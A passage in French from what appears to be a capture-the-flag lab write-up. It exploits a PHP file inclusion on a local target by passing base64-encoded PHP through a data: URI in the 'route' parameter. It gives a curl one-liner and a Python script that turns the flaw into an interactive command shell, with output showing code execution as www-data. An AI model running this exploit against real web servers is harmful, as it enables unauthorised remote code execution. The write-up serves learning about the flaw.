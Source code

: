 On a donc une exécution de code PHP possible. On verra la cause plus tard.

Le rapport généré nous donne ce one-liner pour reproduire la vulnérabilité :

```bash
curl "http://192.168.242.131/content.php" -e "http://192.168.242.131/nav.php" -d "route=data%3A%3Bbase64%2CPD9waHAgZWNobyAndzRwMXQxJywnX2V2YWwnOyA%2FPg%3D%3D"
```

Ça utilise donc le scheme `data:` avec un encodage base64 pour passer du code PHP.

J'écris un semblant de prompt pour encoder les commandes et les envoyer au script :

```python
from urllib.parse import quote
from base64 import b64encode

import requests

def cmd_to_data_scheme(command):
    php_command = f"<?php system('{command}'); ?>".encode(errors="ignore")
    return f"data:;base64,{b64encode(php_command).decode()}"

sess = requests.session()
while True:
    command = input("> ").strip()
    if command == "quit":
        break
    response = sess.post(
        "http://192.168.242.131/content.php",
        data={"route": cmd_to_data_scheme(command)}
    )
    print(response.text.rstrip("a\n"))
```

J'obtiens toujours quelques caractères inutiles dans l'output, mais ça fonctionne :

```console
python3 exploit.py 
> uname -a
Linux seckenheim.net.mil 4.4.0-22-generic #40-Ubuntu SMP Thu May 12 22:03:46 UTC 2016 x86_64 x86_64 x86_64 GNU/Linux
> pwd
/var/www/html
)�
> ls -al
total 128
drwxr-xr-x 2 www-data www-data  4096 May 22  2016 .
drwxr-xr-x 3 root     root      4096 May 21  2016 ..
-rw-r--r-- 1 root     root     73450 Aug  6  2015 bomb.jpg
-rw-r--r-- 1 root     root      3901 May 21  2016 bomb.php
-rw-r--r-- 1 root     root       124 May 21  2016 content.php
-rw-r--r-- 1 root     root       145 May 21  2016 index.php
-rw-r--r-- 1 www-data www-data    20 May 21  2016 info.php
-rw-r--r-- 1 root     root       109 May 21  2016 main.php
-rw-r--r-- 1 root     root     18260 Jan 22  2012 mj.jpg
-rw-r--r-- 1 root     root       532 May 21  2016 nav.php
-rw-r--r-- 1 root     root       253 May 22  2016 props.php
)�
> id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
